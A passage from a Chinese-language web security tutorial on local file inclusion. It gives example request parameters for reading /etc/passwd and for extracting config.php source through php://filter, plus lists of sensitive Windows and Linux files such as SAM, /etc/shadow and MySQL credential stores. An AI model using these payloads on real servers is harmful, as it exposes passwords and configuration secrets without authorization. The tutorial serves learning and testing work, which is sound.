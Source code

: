 一个只能包含本地，一个可以远程加载

具体形成原因由代码和环境配置文件决定

### 本地文件包含漏洞

#### 无限制本地文件包含漏洞

**读取敏感文件**

通过目录遍历漏洞可以获取到系统中其他文件的内容

```bash
?a=/etc/passwd
```

**常见的敏感信息路径：**

Windows系统

```
c:\boot.ini // 查看系统版本

c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件

c:\windows\repair\sam // 存储Windows系统初次安装的密码

c:\ProgramFiles\mysql\my.ini // MySQL配置

c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码

c:\windows\php.ini // php 配置信息
```

Linux/Unix系统

```
/etc/passwd // 账户信息

/etc/shadow // 账户密码文件

/usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件

/usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置

/usr/local/app/php5/lib/php.ini // PHP相关配置

/etc/httpd/conf/httpd.conf // Apache配置文件

/etc/my.conf // mysql 配置文件
```

**利用封装协议读源码**

```bash
?a=php://filter/read=convert.base64-encode/resource=config.php
```
